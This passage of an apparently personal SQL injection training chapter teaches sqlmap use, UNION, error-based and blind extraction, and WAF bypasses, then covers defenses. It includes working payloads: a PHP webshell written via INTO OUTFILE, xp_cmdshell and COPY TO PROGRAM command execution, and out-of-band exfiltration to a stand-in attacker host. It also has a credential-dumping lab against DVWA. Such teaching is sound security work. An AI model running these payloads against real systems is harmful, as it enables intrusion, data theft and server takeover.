sqlmap -r request.txt -p id --batch
```

| Flag | Meaning |
|---|---|
| `-u "URL"` | Target a URL directly (GET params in the URL) |
| `-r request.txt` | Load a full raw HTTP request from file (best for POST/JSON/auth) |
| `-p id` | Test only the `id` parameter (faster, targeted) |
| `--data="a=1&b=2"` | POST body |
| `--cookie="session=..."` | Send session cookie (test authenticated surface) |
| `--batch` | Never prompt — take default answers (for automation) |
| `--level=1..5` | How many places to test (headers, cookies) — higher = more thorough |
| `--risk=1..3` | How dangerous the tests may be (3 includes OR-based, heavier) |
| `--dbms=mysql` | Skip fingerprinting if you already know the DBMS |
| `--technique=BEUSTQ` | Restrict techniques (B=boolean E=error U=union S=stacked T=time Q=inline) |
| `--threads=10` | Parallelism (huge speedup for blind) |
| `--tamper=space2comment` | Apply evasion transforms (Part 10) |
| `--proxy=http://127.0.0.1:8080` | Route through Burp to watch what it sends |
| `--flush-session` | Clear cached results and re-test from scratch |

### 8.3 Enumeration and dumping

```bash
# 1. Fingerprint + list databases
sqlmap -r request.txt -p id --batch --dbs

# 2. List tables in the target database
sqlmap -r request.txt -p id --batch -D shopdb --tables

# 3. List columns of the users table
sqlmap -r request.txt -p id --batch -D shopdb -T users --columns

# 4. Dump specific columns (minimise blast radius — don't dump everything)
sqlmap -r request.txt -p id --batch -D shopdb -T users -C username,password --dump

# Useful identity flags
sqlmap -r request.txt --batch --current-user --current-db --is-dba --hostname
```

Realistic (abridged) output for the detection step:

```
[INFO] testing connection to the target URL
[INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[INFO] testing for SQL injection on GET parameter 'id'
[INFO] GET parameter 'id' is 'MySQL >= 5.6 AND error-based ...' injectable
[INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 3 columns' injectable
[INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/lab.example'
```

And a dump:

```
Database: shopdb
Table: users
[3 entries]
+----+----------+--------------------------------+
| id | username | password                       |
+----+----------+--------------------------------+
| 1  | admin    | $2b$12$Nn5...redacted          |
| 2  | alice    | $2b$12$Kd9...redacted          |
| 3  | bob      | $2b$12$Lp2...redacted          |
+----+----------+--------------------------------+
```

`sqlmap` can also crack simple hashes inline (it offers a dictionary attack on recognised
hash formats), read files (`--file-read=/etc/passwd`), write files (`--file-write local
--file-dest remote`), and drop into a shell (Part 9).

### 8.4 Tuning: level, risk, and being a good bounty citizen

- Start **targeted and quiet**: `-p` the one param, `--level=1 --risk=1`. Only raise
  `--level`/`--risk` if detection fails — higher levels hammer headers/cookies and generate
  a lot of noise.
- Use `--technique` to *exclude* time-based (`--technique=BEU`) when you want speed and the
  target reflects data; time-based is what makes runs crawl.
- On a real program, `--dump` with an explicit `-C` of only the columns you need for proof;
  never `--dump-all`. Respect the scope and data-minimisation rules from Chapter 5 of the
  Foundations track — a full customer-table dump can turn a legitimate test into a reportable
  data breach.

**Bug bounty note:** many programs *forbid* automated scanners or heavy `sqlmap` usage in
their policy. Read the scope. When allowed, `--proxy` through Burp so you have a complete,
reviewable record of every request you sent — invaluable if the program questions your
testing.

## Part 9: Escalation — From Query Execution to File Read/Write and RCE

Reading the database is high impact; reading the server's files or running commands is
critical. Whether you can escalate depends on the DBMS, its configuration, and the privileges
of the DB account the app uses.

### 9.1 File read/write (MySQL)

```sql
-- Read a file (requires FILE privilege and secure_file_priv permitting the path)
' UNION SELECT LOAD_FILE('/etc/passwd'), NULL, NULL-- -

-- Write a webshell into the webroot (requires FILE priv + writable path + known path)
' UNION SELECT '<?php system($_GET[0]); ?>', NULL, NULL
   INTO OUTFILE '/var/www/html/s.php'-- -
```

`secure_file_priv` (empty = anywhere, a path = only there, `NULL` = disabled) governs this;
modern MySQL defaults to a restrictive value, so file write often fails — check
`@@secure_file_priv` first via a UNION.

### 9.2 OS command execution (MSSQL xp_cmdshell)

MSSQL's `xp_cmdshell` runs OS commands directly. It's disabled by default but re-enablable if
your DB account is sysadmin — a very common misconfiguration on internal networks:

```sql
'; EXEC sp_configure 'show advanced options',1; RECONFIGURE;
   EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;
   EXEC xp_cmdshell 'whoami';-- -
```

sqlmap automates the whole dance:

```bash
sqlmap -r request.txt -p id --batch --os-shell     # interactive OS shell
sqlmap -r request.txt -p id --batch --os-cmd="whoami"
```

### 9.3 PostgreSQL RCE

```sql
-- PostgreSQL COPY ... FROM PROGRAM (superuser) runs a shell command
'; COPY (SELECT '') TO PROGRAM 'id > /tmp/out; cat /tmp/out'-- -
```

Newer PostgreSQL also allows `COPY ... FROM PROGRAM` and various extension-based paths;
sqlmap's `--os-shell` handles the common cases.

| DBMS | File read | File write | OS command execution |
|---|---|---|---|
| MySQL | `LOAD_FILE()` | `INTO OUTFILE`/`DUMPFILE` | UDF (`sys_exec`) — rare, needs plugin dir writable |
| MSSQL | `OPENROWSET`/`BULK` | `bcp` / OLE automation | `xp_cmdshell` (if sysadmin) |
| PostgreSQL | `pg_read_file()` / large objects | large objects | `COPY ... FROM PROGRAM` (superuser) |
| Oracle | `UTL_FILE` | `UTL_FILE` | Java stored procs / `DBMS_SCHEDULER` |

**Ethics gate:** file write and OS command execution cross from "reading data" into "code
execution on someone's server." On a bug-bounty program this is almost always **out of scope
without explicit written permission**, even when technically possible. Proving you *could*
(e.g. reading a single non-sensitive file, or `SELECT @@secure_file_priv`) is enough for the
report; actually dropping a webshell is not. Do not cross this line without authorisation.

## Part 10: WAF and Filter Bypass

Real targets sit behind Web Application Firewalls (Cloudflare, AWS WAF, ModSecurity/OWASP
CRS, Akamai) and application-level input filters. Bypass is about understanding *what* the
filter matches and mutating your payload so it's semantically identical but syntactically
different.

### 10.1 Common filters and their bypasses

| Filter / control | Bypass idea | Example |
|---|---|---|
| Blocks the word `UNION` | Case variation / inline comment | `UnIoN`, `UN/**/ION`, `%55NION` |
| Strips spaces | Comments / whitespace alternatives | `UNION/**/SELECT`, `UNION%0aSELECT`, `UNION(SELECT...)` |
| Blocks `OR`/`AND` | Symbol operators | `||` for OR, `&&` for AND (MySQL) |
| Blocks `=` | `LIKE` / `BETWEEN` / `<>` | `1 LIKE 1`, `1 BETWEEN 1 AND 1` |
| Blocks quotes | Hex / `CHAR()` / unquoted numeric ctx | `0x61646d696e`, `CHAR(97,100,...)` |
| Blocks comments `-- ` / `#` | Close syntax naturally | balance quotes instead of commenting |
| Keyword blacklist | Double-encoding / nesting | `SELSELECTECT` (if filter strips once), `%2553ELECT` |
| Blocks `information_schema` | Alt catalogs / `sys.*` | MySQL `sys.schema_table_statistics`; MSSQL `sys.objects` |

### 10.2 Encoding layers

The same payload can be delivered URL-encoded, double-URL-encoded, unicode-encoded, or
comment-obfuscated. A WAF that normalises only once is beaten by double-encoding
(`%2527` → `%27` → `'`). Try, in order: plain → URL-encode special chars → inline comments
for spaces/keywords → hex for strings → double-encode.

### 10.3 sqlmap tamper scripts

sqlmap ships dozens of **tamper scripts** that apply these transforms automatically. Chain
them:

```bash
sqlmap -r request.txt -p id --batch \
  --tamper=between,space2comment,charencode,randomcase
```

| Tamper script | What it does |
|---|---|
| `space2comment` | Replaces spaces with `/**/` |
| `randomcase` | Randomises keyword case (`UnIoN`) |
| `charencode` | URL-encodes characters |
| `charunicodeencode` | Unicode-encodes (good vs ASP/.NET) |
| `between` | Replaces `>` with `NOT BETWEEN 0 AND` and `=` with `BETWEEN` |
| `equaltolike` | Replaces `=` with `LIKE` |
| `apostrophemask` | Encodes quotes as UTF-8 fullwidth |
| `modsecurityversioned` | Wraps payload in MySQL versioned comment `/*!...*/` |

**Do not brute-force a WAF.** Fire a couple of probes, read the block response, form a
hypothesis about the rule, and craft the minimal bypass. Blindly throwing every tamper script
at a Cloudflare-protected bounty target will get your IP banned and can violate program rules.

## Part 11: Fully Worked Hands-On Lab

This lab uses a **local, legal** target you control — the intentionally vulnerable **DVWA**
(Damn Vulnerable Web Application) at "SQL Injection" medium security, or PortSwigger's Web
Security Academy UNION lab. Never run these techniques against a system you are not authorised
to test. The commands below assume a lab at `http://localhost:8080` with an `id` parameter.

### Step 0 — Confirm the injection (recap from Chapter 1)

```bash
# Baseline vs broken
curl -s "http://localhost:8080/vuln.php?id=1"        | grep -c "First name"   # 1 (normal)
curl -s "http://localhost:8080/vuln.php?id=1'"       | grep -ci "SQL syntax"  # 1 (error, injectable)
```

### Step 1 — Count columns with ORDER BY

```bash
for n in 1 2 3 4; do
  echo -n "ORDER BY $n -> "
  curl -s "http://localhost:8080/vuln.php?id=1' ORDER BY $n-- -" \
    | grep -qi "Unknown column" && echo "ERROR" || echo "OK"
done
```

Output:

```
ORDER BY 1 -> OK
ORDER BY 2 -> OK
ORDER BY 3 -> ERROR
```

→ **2 columns.**

### Step 2 — Find the reflected string column

```bash
curl -s "http://localhost:8080/vuln.php?id=1' UNION SELECT 'AAA','BBB'-- -" | grep -o "AAA\|BBB"
```

Output:

```
AAA
BBB
```

Both reflect; use column 2 for readable multi-value output.

### Step 3 — Fingerprint and pull identity

```bash
curl -s "http://localhost:8080/vuln.php?id=1' UNION SELECT NULL,\
CONCAT(version(),0x3a,current_user(),0x3a,database())-- -" | grep -o "[0-9].*shopdb"
```

Output:

```
8.0.36-0ubuntu0.22.04.1:webapp@localhost:shopdb
```

### Step 4 — Enumerate schema

```bash
# tables
curl -s "http://localhost:8080/vuln.php?id=1' UNION SELECT NULL,\
(SELECT GROUP_CONCAT(table_name SEPARATOR 0x0a) FROM information_schema.tables \
WHERE table_schema=database())-- -"
```

Output includes:

```
guestbook
users
```

```bash
# columns of users
curl -s "http://localhost:8080/vuln.php?id=1' UNION SELECT NULL,\
(SELECT GROUP_CONCAT(column_name SEPARATOR 0x0a) FROM information_schema.columns \
WHERE table_name=0x7573657273)-- -"
```

Output:

```
user_id
first_name
last_name
user
password
```

### Step 5 — Extract minimal proof

```bash
curl -s "http://localhost:8080/vuln.php?id=1' UNION SELECT NULL,\
(SELECT CONCAT(user,0x3a,password) FROM users LIMIT 1)-- -"
```

Output (proof row, hash redacted before it leaves your notes):

```
admin:5f4dcc3b5aa765d61d8327deb882cf99
```

That MD5 is `password` — but on a real engagement you'd redact the hash and stop here.

### Step 6 — Let sqlmap confirm and dump (targeted)

```bash
sqlmap -u "http://localhost:8080/vuln.php?id=1" -p id --batch \
  --cookie="security=medium; PHPSESSID=..." \
  -D shopdb -T users -C user,password --dump
```

Abridged output:

```
[INFO] the back-end DBMS is MySQL
Database: shopdb
Table: users
[2 entries]
+---------+--------------------------------------------------+
| user    | password                                         |
+---------+--------------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password)      |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)        |
+---------+--------------------------------------------------+
```

sqlmap recognised the MD5 format and cracked both against its dictionary — note it annotates
the plaintext in parentheses. On a real target you would **not** run a full dump; this lab is
yours to break.

### Step 7 — Blind fallback drill

Switch DVWA to "SQL Injection (Blind)" and repeat extraction with the boolean script from
Part 4 (swap the URL and `TRUE_MARKER` to match the blind page's "User ID exists" text). This
trains the muscle for real targets where reflection is absent.

## Part 12: Detection & Defense Angle

This is the consolidated blue-team section. Everything above is offensive; here is how to
make all of it fail. The techniques differ, but **one root cause** underlies every variant:
untrusted input is allowed to change query *structure*. Fix that and the entire chapter
becomes moot.

### 12.1 The one real fix: parameterised queries (prepared statements)

Parameterisation sends the query structure and the data to the database *separately*, so
input can never be parsed as SQL. This is the primary, near-total defense.

```python
# VULNERABLE — string concatenation
cur.execute("SELECT * FROM users WHERE name = '" + name + "'")

# SAFE — parameterised; the driver binds `name` as data, never as SQL
cur.execute("SELECT * FROM users WHERE name = %s", (name,))
```

```java
// SAFE — Java PreparedStatement
PreparedStatement ps = conn.prepareStatement(
    "SELECT * FROM users WHERE name = ?");
ps.setString(1, name);
```

**Caveat:** you cannot parameterise *identifiers* (table/column names, `ORDER BY` columns,
`ASC`/`DESC`) — only values. For those, use a strict **allow-list** mapping user input to a
fixed set of known-safe identifiers. This is exactly where the `ORDER BY` context injections
from Part 1 live, so it deserves explicit attention.

### 12.2 Defense in depth (each is a mitigation, not a substitute)

- **Least privilege for the DB account.** The web app's DB user should have only
  `SELECT/INSERT/UPDATE/DELETE` on the tables it needs — never `FILE`, never `DBA`/sysadmin,
  never permission to run `xp_cmdshell` or read `information_schema` it doesn't need. This
  directly kills the escalation in Part 9.
- **Generic error handling.** Return a generic error page; log the real exception
  server-side. This removes the entire error-based channel (Part 3) and much of the
  fingerprinting from Chapter 1.
- **Input validation / allow-listing** where the input has a known shape (an `id` must match
  `^[0-9]+$`). Validation is a useful *layer*, but never the primary defense — attackers
  bypass blacklists (Part 10). Allow-lists beat blacklists.
- **WAF** as a speed bump and telemetry source, not a fix. A WAF buys time and generates
  alerts; it does not remove the vulnerability, and every rule can be bypassed (Part 10).
- **ORMs used correctly.** Parameterise by default, but raw-query escape hatches
  (`.raw()`, string interpolation into `WHERE`) reintroduce the bug — grep for them in review.

### 12.3 Detection telemetry

| Signal | What it catches |
|---|---|
| DB errors spiking on one endpoint | Error-based / discovery probing |
| `information_schema` / `sys.*` access from the app's DB user | Enumeration (app rarely needs it in prod) |
| Per-endpoint latency outliers clustered at round seconds | Time-based blind |
| High-volume near-identical requests, one char varying | Boolean/time blind extraction (incl. sqlmap) |
| Outbound DNS from the DB host to odd domains | Out-of-band exfil (Part 6) |
| `User-Agent: sqlmap/...` (default) | Lazy automated scanning |
| `xp_cmdshell` / `COPY ... PROGRAM` / `INTO OUTFILE` in query logs | Escalation attempts (Part 9) |

Enable DB query logging or a database activity monitor, forward to your SIEM, and alert on
the app's DB user touching `information_schema`, using file functions, or invoking
command-execution primitives — none of which a normal application does in production.



## Part 13: Common Mistakes and How to Avoid Them

- **Skipping column counting** and guessing at UNION width — always `ORDER BY` first.
- **Forgetting the trailing space after `-- `** in MySQL — use `-- -` every time.
- **Putting strings in numeric-only columns** on PostgreSQL/MSSQL and reading the type error
  as "not injectable." It *is* injectable; you just chose the wrong column — use NULLs to
  count, then place your string in a text column.
- **Using quotes inside an already-quoted payload.** Use hex (`0x...`) or `CHAR()` for
  string literals to avoid quote collisions and some filters.
- **Treating a byte-identical page as "not exploitable."** It may still be *time-based* or
  *out-of-band* injectable. Escalate down the channel decision tree, don't give up.
- **Running `--dump-all` / high `--risk` on a bounty target.** This is noisy, often against
  program rules, and can turn a valid finding into a data-handling incident. Extract minimal
  proof.
- **Letting time-based thresholds sit too close to baseline latency** — false positives
  everywhere. Sleep long, threshold in the middle.
- **Ignoring second-order sinks.** If first-order tests are clean, test stored inputs
  reaching later queries.

## Part 14: Final Revision / Summary

- **Exploitation technique is chosen by the exfiltration channel:** reflected data → UNION;
  reflected errors → error-based; behavioural difference only → boolean blind; timing only →
  time-based blind; nothing visible → out-of-band.
- **UNION** requires matching column count (`ORDER BY` / `NULL`s) and a reflected
  string-capable column, then reads `information_schema` in the loop **tables → columns →
  data**.
- **Error-based** smuggles data inside DB error messages: MySQL `EXTRACTVALUE`/`UPDATEXML`
  (32-char limit), MSSQL `CONVERT`, PostgreSQL `CAST`.
- **Boolean blind** binary-searches each character via `SUBSTRING`+`ASCII` and a true/false
  page signal (~7 requests/char).
- **Time blind** does the same using `SLEEP`/`WAITFOR`/`pg_sleep` and response timing — the
  slow last resort.
- **Out-of-band** exfils through DNS/HTTP the DB server initiates (`xp_dirtree`,
  `UTL_INADDR`, `LOAD_FILE` on UNC) — fast but needs egress.
- **Second-order** fires when stored input is later concatenated into a new query.
- **sqlmap** automates all of it — `-r`, `-p`, `--dbs/--tables/--columns/--dump`, `--level`,
  `--risk`, `--technique`, `--tamper` — but understand the manual techniques first.
- **Escalation** to file read/write and RCE depends on DBMS + privileges; it is an ethics
  boundary on bounties.
- **Defense** is overwhelmingly one thing — **parameterised queries** — backed by least
  privilege, generic errors, allow-listing, and monitoring.

## Part 15: Cheat Sheet / Quick Reference

```text
COUNT COLUMNS
  ' ORDER BY 1-- -   (increment until error)
  ' UNION SELECT NULL,NULL,...-- -   (add NULLs until OK; Oracle: ...FROM DUAL)

FIND REFLECTED STRING COLUMN
  ' UNION SELECT 'a',NULL,NULL-- -   (rotate the 'a' through positions)

IDENTITY (minimal proof)
  MySQL : ' UNION SELECT NULL,CONCAT(version(),0x3a,current_user(),0x3a,database())-- -
  MSSQL : ' UNION SELECT NULL,@@version-- -   ; SYSTEM_USER ; DB_NAME()
  PgSQL : ' UNION SELECT NULL,version()-- -   ; current_user ; current_database()

SCHEMA (MySQL/MSSQL/PgSQL)
  tables : information_schema.tables  WHERE table_schema=database()
  cols   : information_schema.columns WHERE table_name=0x<hextable>
  Oracle : ALL_TABLES / ALL_TAB_COLUMNS

ERROR-BASED
  MySQL : ' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT version())))-- -
  MSSQL : ' AND 1=CONVERT(int,(SELECT @@version))-- -
  PgSQL : ' AND 1=CAST((SELECT version()) AS int)-- -

BOOLEAN BLIND
  ' AND ASCII(SUBSTRING((<expr>),<pos>,1)) > <mid>-- -   (binary search 32..126)

TIME BLIND
  MySQL : ' AND IF(<cond>,SLEEP(5),0)-- -
  MSSQL : '; IF(<cond>) WAITFOR DELAY '0:0:5'-- -
  PgSQL : ' AND (SELECT CASE WHEN <cond> THEN pg_sleep(5) ELSE pg_sleep(0) END)-- -

OUT-OF-BAND
  MSSQL : '; EXEC('master..xp_dirtree "\\'+@d+'.oob.attacker.tld\x"')-- -
  Oracle: UTL_INADDR.GET_HOST_ADDRESS((SELECT user FROM dual)||'.oob.attacker.tld')

SQLMAP
  sqlmap -r req.txt -p id --batch --dbs
  sqlmap -r req.txt -p id --batch -D db -T users -C user,password --dump
  sqlmap -r req.txt -p id --batch --technique=BEU --threads=10
  sqlmap -r req.txt -p id --batch --tamper=space2comment,randomcase
  sqlmap -r req.txt -p id --batch --os-shell        (auth required, ethics!)

ESCALATION
  MySQL : ' UNION SELECT LOAD_FILE('/etc/passwd'),NULL,NULL-- -
          ... INTO OUTFILE '/var/www/html/s.php'   (needs FILE + writable path)
  MSSQL : EXEC xp_cmdshell 'whoami'   (needs sysadmin)
  PgSQL : COPY (SELECT '') TO PROGRAM 'id'   (needs superuser)

DEFENSE
  Parameterised queries (bind values) — the real fix
  Allow-list identifiers (ORDER BY / table names — can't be parameterised)
  Least-privilege DB user (no FILE, no DBA)
  Generic errors (kills error-based)
  Monitor: information_schema access, round-second latency, outbound DNS from DB host
```

## Part 16: Practice Labs & Resources

Train each technique on a legal target:

- **PortSwigger Web Security Academy — SQL injection** (`portswigger.net/web-security/sql-injection`)
  — free, definitive, and *technique-labelled*. Work the UNION labs (column count, string
  column, examining the database), the *blind SQL injection with conditional responses*
  (boolean), *blind with time delays* and *…with conditional errors*, and the *out-of-band
  (OAST)* labs. This is the single best place to drill everything in this chapter.
- **DVWA — SQL Injection & SQL Injection (Blind)** — adjustable difficulty; do Low → Medium →
  High for both to feel filters and blind extraction locally.
- **OWASP Juice Shop** — realistic UNION-based extraction behind a modern SPA/API; good for
  practising JSON-body and API-context injection.
- **HackTheBox Academy — "SQL Injection Fundamentals"** module, and web machines where SQLi
  is the entry vector (feeds into the pentest-web track's "web bug to shell" chapter).
- **TryHackMe — "SQL Injection", "SQLMAP", "Advanced SQL Injection"** rooms — guided practice
  including sqlmap usage.
- **pentesterlab — "From SQL Injection to Shell" I & II** — the full escalation chain from
  Part 9, end to end.
- **PortSwigger SQL injection cheat sheet** (`portswigger.net/web-security/sql-injection/cheat-sheet`)
  — per-DBMS syntax you'll reference constantly.
- **OWASP SQL Injection Prevention Cheat Sheet** (`cheatsheetseries.owasp.org`) — the
  authoritative remediation reference for the defense section of your reports.

Practice questions:

1. A search page reflects results and you've confirmed a single-quoted string context.
   `' ORDER BY 5-- -` errors but `' ORDER BY 4-- -` is fine, yet `' UNION SELECT
   'a','a','a','a'-- -` throws a type error. What's happening, and how do you get a string to
   reflect?
2. On an MSSQL target the app shows detailed errors but never reflects query data. Write the
   single payload that extracts `@@version`, and explain why MSSQL is especially friendly to
   this technique.
3. A page is byte-for-byte identical for `' AND 1=1-- -` and `' AND 1=2-- -`. Describe your
   next two techniques in order and write a MySQL payload for each.
4. You confirm blind SQLi but extraction by hand would take hours. Write the sqlmap command to
   dump only the `email` and `password` columns of the `customers` table in database `app`,
   using a saved request file, restricted to boolean+time techniques with 10 threads.
5. Your UNION payloads are blocked whenever they contain the word `UNION` or a space. Give two
   distinct rewrites of `' UNION SELECT NULL,version()-- -` that bypass both filters, and name
   the sqlmap tamper scripts that automate each.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/appsec-injection/02-sql-injection-part-2-union-error-based-and-blind-exploitation), with comments and the latest edits.*
